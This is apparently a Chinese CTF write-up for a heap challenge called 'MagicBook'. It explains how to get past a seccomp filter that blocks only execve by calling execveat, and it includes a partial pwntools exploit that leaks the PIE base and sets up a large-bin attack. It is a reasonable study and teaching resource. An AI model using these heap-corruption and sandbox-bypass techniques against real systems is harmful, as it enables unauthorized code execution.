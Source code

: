 > 在[以前的文章中](../isctf2023/abstract_shellcode.md)中提到过`read`的参数`count`是不能超过`SSIZE_MAX`的，
> 在官方wp中也提到了这一点，因此在主循环中每次都`book &= 0xffff`限制大小

只禁了`execve`系统调用，因此可以使用`execveat`来拿shell

在设置传参函数的时候还要将r8置为0，因为这个`flags`在我们的情况下是`0x1e`，
会导致`execveat`无法打开shell

### `execveat`在libc中出现的时刻

经过源码符号查找，首次出现这个系统调用的版本是[2.27](https://elixir.bootlin.com/glibc/glibc-2.27/source/sysdeps/unix/sysv/linux/fexecve.c#L43)，
正式出现函数封装的版本是[2.34](https://elixir.bootlin.com/glibc/glibc-2.34/source/sysdeps/unix/sysv/linux/execveat.c#L26)

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
context.arch = 'amd64'
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'
EXE = './MagicBook'

def payload(lo:int):
    global sh
    if lo:
        sh = process(EXE)
        if lo & 2:
            gdb.attach(sh)
    else:
        sh = remote('', 9999)
    libc = ELF('/home/Rocket/glibc-all-in-one/libs/2.35-0ubuntu3.6_amd64/libc.so.6')
    elf = ELF(EXE)

    def createBook(size:int):
        sh.sendlineafter(b'choice', b'1')
        sh.sendlineafter(b'need', str(size).encode())
    
    def deleteBook(idx:int, page:int=0, content:bytes=None):
        sh.sendlineafter(b'choice', b'2')
        sh.sendlineafter(b'delete', str(idx).encode())
        if content:
            sh.sendlineafter(b'y/n', b'y')
            sh.sendlineafter(b'page', str(page).encode())
            sh.sendafter(b'content', content)
        else:
            sh.sendlineafter(b'y/n', b'n')

    def editBook(content: bytes):
        sh.sendlineafter(b'choice', b'3')
        sh.sendafter(b'story!\n', content)

    sh.recvuntil(b'gift: ')
    pieBase = int(sh.recv(14), 16) - elf.symbols['d']
    success(GOLD_TEXT(f'Leak PIE base: {pieBase:#x}'))
    elf.address = pieBase

    createBook(0x4e0)   # 0
    createBook(0x20)    # 1 prevent 0 from being merged
    createBook(0x4d0)   # 2
    deleteBook(0)       # place 0 in unsorted bin
    createBook(0x4f0)   # 3 place 0 in large bin

    deleteBook(2, 0, p64(0) * 2 + p64(elf.symbols['book'] - 0x20)) # place 2 in unsorted bin
```